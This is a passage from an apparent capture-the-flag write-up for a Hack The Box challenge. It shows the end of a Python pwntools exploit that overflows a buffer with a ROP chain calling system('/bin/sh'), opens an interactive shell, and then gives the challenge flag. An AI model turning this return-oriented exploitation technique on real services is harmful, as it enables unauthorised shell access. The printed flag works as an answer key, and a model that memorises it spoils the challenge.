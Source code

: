 ```python
	pop_rdi,
	bin_sh,
	system,
	exit
]

rop = b''.join([p64(i) for i in rop])
payload = b"A"*offset + rop

# to get into bin sh
print(s.recvuntil(b"> ").decode())
print("1")
s.sendline(b"1")
print(s.recvuntil(b"> ").decode())

print(payload)
s.sendline(payload)

# interactive() let us the interact with the /bin/sh
s.interactive()

s.close()
```

Now all we need to do is just run the program and cat the flag.txt!
![](img/mr_snowy.png)

Flag: `HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh}`

[Location]: 🎅 Santa's garden..                                                                                  
[Location]: 🎅 Santa's garden..                                                                                  